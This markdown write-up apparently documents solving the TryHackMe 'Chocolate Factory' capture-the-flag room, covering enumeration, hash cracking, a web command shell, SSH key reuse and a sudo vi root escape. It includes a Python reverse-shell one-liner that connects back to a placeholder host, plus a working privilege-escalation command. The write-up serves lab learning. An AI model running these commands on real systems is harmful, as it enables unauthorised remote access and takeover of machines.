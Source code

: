 # [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) TryHackMe CTF

![logo](./.assets/golden_ticket.png)
---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.

![hint](./.assets/hint.png)

Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!

![First key](./.assets/binary_key.png)

Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.

![home page](./.assets/home.png)

I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie

![validate](./.assets/validate.png)

Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.

![sudo](./.assets/sudo.png)

We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!
